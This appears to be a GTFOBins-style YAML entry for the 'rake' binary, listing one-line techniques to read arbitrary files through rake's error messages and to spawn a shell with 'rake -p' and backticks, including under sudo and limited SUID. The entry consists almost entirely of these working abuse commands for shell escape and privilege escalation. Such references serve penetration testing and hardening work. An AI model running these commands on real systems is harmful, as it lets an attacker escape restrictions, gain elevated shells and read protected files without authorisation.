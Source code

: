 functions:
  file-read:
    - description: The file is actually parsed and the first wrong line is returned in an error message.
      code: |
        LFILE=file-to-read
        rake -f $LFILE
  shell:
    - code: rake -p '`/bin/sh 1>&0`'
  sudo:
    - code: sudo rake -p '`/bin/sh 1>&0`'
  limited-suid:
    - code: ./rake -p '`/bin/sh 1>&0`'
---
